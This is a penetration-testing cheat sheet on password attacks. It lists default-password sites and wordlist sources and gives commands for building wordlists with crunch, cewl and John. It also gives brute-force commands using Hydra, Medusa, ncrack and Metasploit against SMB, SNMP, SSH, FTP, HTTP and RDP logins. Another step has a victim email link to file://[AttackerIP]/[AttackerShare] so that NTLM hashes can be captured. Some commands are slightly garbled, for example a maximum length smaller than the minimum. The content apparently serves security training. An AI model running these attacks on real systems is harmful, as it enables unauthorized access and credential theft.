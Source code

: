 ```yaml
---
title: Password Attacks and Bruteforce
category: Exploitation
order: 98
---
```


> **Default Passwords**

* [cirt](http://www.cirt.net/passwords)
* [vulnerabilityassessment](http://www.vulnerabilityassessment.co.uk/passwords.htm)
* [default-password](https://default-password.info/)
* [routerpasswords](http://www.routerpasswords.com/)
* [phenoelit](http://www.phenoelit.org/dpl/dpl.html)


> **Sniff (Kannan, ntlm, ms kerberos)**
{% highlight bash %}
E-mail with link: file://[AttackerIP]/[AttackerShare]
Sniff the traffic between victim and client for challange and response
{% endhighlight %}


> **Mac OS X Bruteforce** 

Mac OS X:

* [crowbarKC](http://www.ibootstup.com/app/com.georgestarcher.crowbarkc)

> **Creating a password list**

Crunch | <code> crunch 6 6 0123456789ABCDEF -o list.txt </code>
Crunch | <code> cat /usr/share/crun/charset.lst <br> crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha -o mixedalpha.txt </code>
cewl | <code> cewl -m 6 http://www.linkedinprofile.com -w wordlistUniq.lst </code>
John | <code> john --wordlist=wordlistFinal.lst --rules:'[chosen rule set]' --stdout > mangledWordlist </code>


> **Password Guessing**

Hydra - smb | <code>hydra -l admin -P /opt/tools/passwords/wordlists/rockyou.txt 10.0.0.2 smb </code>
Hydra - snmp | <code> hydra -P password-file.txt -v 10.11.1.219 snmp </code>
Hydra - ssh | <code> hydra -l root -P password-file.txt 10.11.1.219 ssh </code>
Hydra - ftp | <code> hydra -l admin -P password-file.txt -v 192.168.1.2 ftp </code>
Medusa - HTTP | <code>medusa -h admin.megacorpone.com -u admin -P mega-mangled -M http -n 81 m DIR:/admin -T 3 </code>
ncrack - rdp | <code>ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.35</code>
MSF - ftp | <code>use auxiliary/scanner/ftp/ftp_login</code>

> **Password Lists**

Password Lists in Kali | /usr/share/wordlists/
Tailor Password list to policy | <code> > pw-inspector [-i FILE] [-o FILE] [-m MINLEN] [-M MAXLEN] [-c MINSETS] -l -u -n -p –s  <br> > pw-inspector -i /usr/share/wordlists/nmap.lst -o /root/passes.txt -m 6 -M 1 </code>
Combine Word Lists | <code> > cat wordlist.txt <wordlist2.txt....> | sort | uniq > dictionary.txt </code>
Word List from Website | <code> > mkdir /tmp/source <br> > cd /tmp/source <br> > wget -r -l [Page Depth] [target_website] <br> > cd .. <br> grep -h -r """" source | tr '[:space:]' '\n' | sort | uniq >wordlist.lst <br> > grep -v '<' wordlist.lst > newlist.lst </code>
Password Lists | https://downloads.skullsecurity.org/passwords/
Weakpass | https://weakpass.com/wordlist/online
Crackstation | https://crackstation.net/
Hashes.org | https://hashes.org/search.php







